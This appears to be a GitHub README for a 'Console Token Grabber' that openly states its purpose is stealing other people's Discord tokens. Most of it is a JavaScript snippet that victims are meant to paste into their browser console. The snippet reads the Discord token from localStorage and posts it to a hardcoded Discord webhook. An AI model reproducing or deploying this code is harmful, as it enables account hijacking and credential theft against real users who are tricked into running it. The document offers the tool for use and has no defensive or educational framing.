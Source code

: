 # Basic-Console-Grabber
It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'https://discord.com/api/webhooks/947563711281909842/-wxZY0FRrTeVt3GeEoEux_A35j6tdYWaqn4AFVa1E1AH99GmTj6NRYUwWgatDbGhnqJL'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Script",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New skid",
        embeds: [{
            color: "696969",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());```
